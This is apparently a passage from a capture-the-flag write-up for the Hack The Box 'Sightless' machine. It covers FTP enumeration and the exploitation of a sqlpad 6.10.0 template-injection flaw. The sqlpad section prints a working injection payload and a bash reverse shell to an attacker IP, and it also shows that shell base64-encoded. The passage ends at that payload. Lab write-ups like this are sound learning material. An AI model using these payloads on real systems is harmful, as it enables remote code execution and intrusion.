 ## FTP
Trying to connect to ftp anonymously fails, but actually not because of the credentials :
```terminal
┌──(samsam㉿pika-pika)-[~/Downloads]            
└─$ ftp 10.129.190.84                             
Connected to 10.129.190.84.                     
220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.129.190.84]    
Name (10.129.190.84:samsam): 550 SSL/TLS required on the control channel  
ftp: Login failed                                                      
ftp> 
```
If we google this we realize we need an ftp client that supports SSL encryption. `lftp` does just that : 
```terminal
┌──(samsam㉿pika-pika)-[~/htb/sightless]
└─$ lftp -u a,a ftp://sightless.htb -e "set ssl:verify-certificate no"
lftp a@sightless.htb:~> ls
ls: Login failed: 530 Login incorrect.
lftp a@sightless.htb:~>
```
We'll need to come back whenever we have credentials for this service.

## Web
Port 80 is open, and as nmap said is delivering web content. Accessing it returns a redirect to `sightless.htb`. After adding it to my `/etc/hosts` file, let's access it with firefox :
![web.png](/assets/img/sightless/web.png)
It's a really simple web page, none of the buttons work. I could try to bruteforce directories but this is not the way here. There's a link at the bottom mentionning a subdomain, `sqlpad.sightless.htb`.

## sqlpad.sightless.htb
Going to sqlpad.sightless.htb gives us access to a simple sqlpad interface : 
![sqlpad.png](/assets/img/sightless/sqlpad.png)
This is the right time to keep in mind that this is an easy box. Where on an insane/hard, we would probably have to understand a lot about how sqlpad works, this is not the case here. In fact we are on google search away from getting a shell. The website displays `sqlpad version 6.10.0`. Googling sqlpad exploit leads to [this post](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb), which describes a vulnerability affecting all sqlpad instance for versions prior to 6.10.1. The payload is the following :
{% raw %}
```python
{{ process.mainModule.require('child_process').exec('id>/tmp/pwn') }}
```
{% endraw %}
To get a shell from it, I'll use the standard bash reverse shell, and base64 encode it to avoid bad characters :
`bash -i >& /dev/tcp/10.10.14.201/2222 0>&1`. My final payload is :
{% raw %}
```python
{{ process.mainModule.require('child_process').exec('echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMDEvMjIyMiAwPiYx |base64 -d|bash') }}
```